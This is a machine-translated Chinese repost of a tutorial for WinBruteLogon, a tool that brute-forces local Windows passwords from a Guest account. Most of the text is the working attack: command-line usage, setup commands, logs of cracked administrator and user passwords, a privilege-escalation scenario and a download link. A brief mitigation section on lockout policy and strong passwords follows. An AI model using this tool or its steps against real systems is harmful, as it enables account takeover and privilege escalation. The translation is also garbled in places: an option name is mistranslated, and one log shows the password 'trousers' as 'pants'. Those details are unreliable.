

# 暴力登录:破解任何微软视窗用户的密码，没有任何特权

> 原文：<https://kalilinuxtutorials.com/win-brute-logon/>

我认为，与其说 PoC 是一个漏洞，不如说它是微软 Windows 认证机制中的一个严重缺陷。

最大的问题是缺少执行此类操作所需的特权。

事实上，从 Guest 帐户(Microsoft Windows 上最受限制的帐户)，您可以破解任何可用的本地用户的密码。

使用命令`**net user**`找出存在哪些用户

此概念验证使用多线程来加快进程，并支持 32 位和 64 位。

## 使用

### Wordlist 文件

`**WinBruteLogon.exe -u <username> -w <wordlist_file>**`

### 欢迎使用 Wordlist

`**type <wordlist_file> | WinBruteLogon.exe -u <username> -**`

# poco 测试场景 _ 使用来宾帐户)

在 Windows 10 上测试

安装和配置全新更新的 Windows 10 虚拟机或物理机。

在我的例子中，完整的 Windows 版本是:`**1909 (OS Build 18363.778)**`

以管理员身份登录，让我们创建两个不同的帐户:一个管理员和一个普通用户。两个用户都是本地用户。

/!\重要通知:我在演示中使用了来宾帐户，但此概念验证不仅限于来宾帐户，它可以在任何帐户/组(来宾用户/普通用户/管理员用户等)中使用

## 创建新的管理员用户

`**net user darkcodersc /add**`

`**net user darkcodersc trousers**`(裤子是密码)

`**net localgroup administrators darkcodersc /add**`

## 创建普通用户

`**net user HackMe /add**`

`**net user HackMe ozlq6qwm**` (ozlq6qwm 为密码)

## 创建新的客人账户

`**net user GuestUser /add**`

`**net localgroup users GuestUser /delete**`

`**net localgroup guests GuestUser /add**`

## 获取单词表

在我的例子中，`**trousers**`和`**ozlq6qwm**`都在 SecList 中:https://github . com/danielmiessler/sec lists/blob/master/Passwords/Common-Credentials/10k-most-Common . txt

## 开始攻击

从管理员帐户注销或重新启动您的机器并登录到来宾帐户。

将 PoC 可执行文件放在您作为来宾用户可以访问的任何地方。

用法:`**WinBruteLogon.exe -v -u <username> -w <wordlist_file>**`

`**-v**`是可选的，它设计了详细模式。

默认情况下，域名是由`**%USERDOMAIN%**` env var 指定的值。您可以使用选项`**-d**`指定自定义名称

### 破解第一用户:`**darkcodersc**`(管理员)

提示(客人)>`**WinBruteLogon.exe -v -u darkcodersc -w 10k-most-common.txt**`

等待几秒钟，查看以下结果:

**[..]在内存中加载 10k-most-common.txt 文件…
【完成】10002 密码加载成功。
【信息】2 个内核可用
[..]创建 2 个线程…
[信息]用 id=2260，handle=364 创建的新“TWorker”线程
[信息]用 id=3712，handle=532 创建的新“TWorker”线程
[DONE]完成。
[ OK ]用户名=[darkcodersc]和域=[DESKTOP-0885FP1]的密码找到=[pants]
[..]完成并关闭工作线程…
[信息]“工作线程”(id=2260，handle=364)线程成功终止。
[信息]“工作器”(id=3712，handle=532)线程成功终止。
【完成】完成。
【信息】耗时:00:00:06**

### 破解第二用户:`**HackMe**`(普通用户)

提示(客人)>`**WinBruteLogon.exe -v -u HackMe -w 10k-most-common.txt**`

等待几秒钟，查看以下结果:

**[..]在内存中加载 10k-most-common.txt 文件…
【完成】10002 密码加载成功。
【信息】2 个内核可用
[..]创建 2 个线程…
[信息]用 id=5748，handle=336
创建新的“TWorker”线程，用 id=4948，handle=140
[DONE]完成。
[ OK ]用户名=[HackMe]和域=[DESKTOP-0885FP1]的密码找到= [ozlq6qwm]
[..]完成并关闭工作线程…
[信息]“工作线程”(id=5748，handle=336)线程成功终止。
[信息]“工作器”(id=4948，handle=140)线程成功终止。
【完成】完成。
【信息】耗时:00:00:06**

# 真实世界场景

如果您获得了低特权用户的访问权限，您就可以破解更高特权用户的密码并提升您的特权。

# 缓解(一般)

*   禁用来宾帐户(如果有)。
*   申请白名单。
*   遵循指南创建并保持强密码。将此应用于所有用户。

## 实施安全锁定策略(默认情况下不存在)

打开`**secpol.msc**`，然后转到`**Account Policies**` > `**Account Lockout Policy**`，用期望值(1 到 999)编辑值`**Account lockout threshold**`。

值表示锁定前可能的尝试次数。

/!\锁定策略不适用于管理员帐户。此时，最好的保护管理员帐户(如果启用)是设置一个非常复杂的密码。

[**Download**](https://github.com/DarkCoderSc/win-brute-logon)